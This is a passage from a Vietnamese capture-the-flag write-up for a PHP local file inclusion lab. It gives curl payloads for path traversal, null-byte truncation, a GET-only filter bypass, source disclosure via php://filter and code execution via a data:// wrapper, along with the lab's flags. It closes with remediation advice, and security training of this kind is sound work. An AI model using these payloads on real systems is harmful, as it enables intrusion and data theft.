   - Trong PHP < 5.3.4, ký tự `%00` ngắt chuỗi ở tầng C, giúp loại bỏ phần mở rộng `.php` bị ứng dụng nối tự động ở phía sau.

3. **Tư duy "Logic Flaw & Method Impersonation" (Bypass bộ lọc):**
   - Khi gặp bộ lọc regex loại bỏ toàn bộ kí tự đặc biệt ở phương thức `GET` (`/[^a-z]/`), đặt câu hỏi: *"Liệu lập trình viên có lọc đồng nhất ở tất cả HTTP Method hay không?"*
   - Chuyển request sang `POST` giúp bỏ qua hoàn toàn bước kiểm tra regex do logic code chỉ gắn regex vào điều kiện `if (REQUEST_METHOD == "GET")`.

4. **Tư duy Chuyển đổi từ Blackbox sang Whitebox:**
   - Ngay khi khai thác được LFI đầu tiên, sử dụng wrapper `php://filter/convert.base64-encode/resource=...` để đọc toàn bộ mã nguồn PHP của hệ thống.
   - Việc đọc mã nguồn giúp xác định chính xác tên file flag, quy tắc chặn chuỗi (`strpos`) và đường dẫn tuyệt đối.

5. **Tư duy nâng cấp từ LFI $\rightarrow$ RCE (Remote Code Execution):**
   - Tại trang `/playground.php`, ứng dụng cho phép nạp file tự do. Thử nghiệm PHP Stream Wrapper `data://text/plain,<?php system('hostname');?>` cho phép nhúng và thực thi mã PHP trực tiếp trong bộ nhớ mà không cần upload file lên đĩa cứng.

---

## 🛠️ 3. CÁC BƯỚC HÀNH ĐỘNG CHI TIẾT (STEP-BY-STEP EXECUTION LOG)

### Bước 1: Reconnaissance & Hạ tầng
- Quét cổng bằng Nmap: `nmap -sV -sC -F 10.49.153.49`
  - Khám phá Port 80 (Nginx 1.18.0) và Port 22 (SSH OpenSSH 8.2p1).
- Gửi HTTP Request kiểm tra Response Header & Trang lỗi 404:
  - Nginx đóng vai trò Reverse Proxy chuyển tiếp request tới backend `Apache/2.2.22` chạy `PHP 5.2`.

---

### Bước 2: Khai thác Challenge #1 (POST Parameter LFI)
- **Hiện trạng:** Giao diện hiển thị cảnh báo `The input form is broken! You need to send POST request with file parameter!`.
- **Hành động:** Gửi HTTP POST request chứa tham số `file`:
```bash
curl -s -X POST -d "file=../../../../../etc/flag1" http://10.49.153.49/challenges/chall1.php
```
- **Kết quả:** Đọc thành công `/etc/flag1` $\rightarrow$ **`F1x3d-iNpu7-f0rrn`**.

---

### Bước 3: Khai thác Challenge #2 (Cookie-based LFI + Null Byte)
- **Hiện trạng:** Trang web trả về Header `Set-Cookie: THM=Guest`. Mã nguồn nối mặc định tiền tố `includes/` và đuôi `.php`.
- **Hành động:** Truyền payload LFI kèm Null Byte (`%00`) qua Cookie `THM`:
```bash
curl -s -H "Cookie: THM=../../../../../etc/flag2%00" http://10.49.153.49/challenges/chall2.php
```
- **Kết quả:** Ngắt được đuôi `.php` và đọc thành công `/etc/flag2` $\rightarrow$ **`c00k13_i5_yuMmy1`**.

---

### Bước 4: Khai thác Challenge #3 (HTTP Method Bypass + Null Byte)
- **Hiện trạng:** Phương thức `GET` sử dụng `preg_replace('/[^a-z]/','', $_GET['file'])` xóa hết ký tự `.`, `/`, `%00`.
- **Phân tích:** Mã nguồn backend chỉ áp dụng bộ lọc regex khi `REQUEST_METHOD == "GET"`. Khi gửi bằng `POST`, ứng dụng bỏ qua regex và chỉ nối đuôi `.php`.
- **Hành động:** Chuyển sang HTTP POST request gửi tham số `file` chứa Null Byte:
```bash
curl -s -X POST -d "file=../../../../../etc/flag3%00" http://10.49.153.49/challenges/chall3.php
```
- **Kết quả:** Bypass thành công bộ lọc và đọc `/etc/flag3` $\rightarrow$ **`P0st_1s_w0rk1in9`**.

---

### Bước 5: Đọc mã nguồn Whitebox qua PHP Wrapper
Sử dụng điểm LFI ở Challenge 1 để đọc và mã hóa mã nguồn các bài lab sang Base64:
```bash
curl -s -X POST -d "file=php://filter/convert.base64-encode/resource=chall3.php" http://10.49.153.49/challenges/chall1.php
```
Mã nguồn thu được xác nhận chính xác các giả định về logic phân nhánh `GET`/`POST` và bộ lọc `strpos`.

---

### Bước 6: Khai thác RCE tại `/playground.php`
- **Hiện trạng:** Bài lab yêu cầu đạt RCE trên `/playground.php` để lấy output của lệnh `hostname`.
- **Phân tích:** Cấu hình PHP cho phép `allow_url_include = On`.
- **Hành động:** Sử dụng PHP Wrapper `data://` để chèn trực tiếp câu lệnh PHP `system('hostname')`:
```bash
curl -s "http://10.49.153.49/playground.php?file=data://text/plain,<?php%20system('hostname');?>"
```
- **Kết quả:** Thực thi thành công lệnh hệ thống và trả về `hostname`:
```text
lfi-vm-thm-f8c5b1a78692
```

---

## 🛡️ 4. KHUYẾN NGHỊ PHÒNG THỦ (REMEDIATION)

1. **Kiểm soát chặt chẽ Input (Strict Whitelisting):**
   - Không cho phép người dùng tự do truyền đường dẫn file. Sử dụng danh sách cố định (Hardcoded Whitelist) các trang được phép bao hàm:
     ```php
     $allowed_pages = array("home" => "home.php", "about" => "about.php");
     if (array_key_exists($page, $allowed_pages)) {
         include($allowed_pages[$page]);
     }
     ```
2. **Nâng cấp môi trường PHP:**
   - Nâng cấp lên các phiên bản PHP hiện đại ($\ge 8.x$) để vô hiệu hóa hoàn toàn lỗ hổng Null Byte Injection.
3. **Cấu hình an toàn `php.ini`:**
   - Tắt tính năng nạp file từ xa: `allow_url_fopen = Off` và `allow_url_include = Off`.
4. **Đồng nhất quy tắc Filter:**
   - Đảm bảo các bộ lọc bảo mật được áp dụng đồng nhất trên tất cả các phương thức HTTP (`GET`, `POST`, `PUT`, `HEADERS`).

</div>

---


### 🔗 Các bài viết liên kết trong sơ đồ

- [[cách để gửi POST trong burp]]
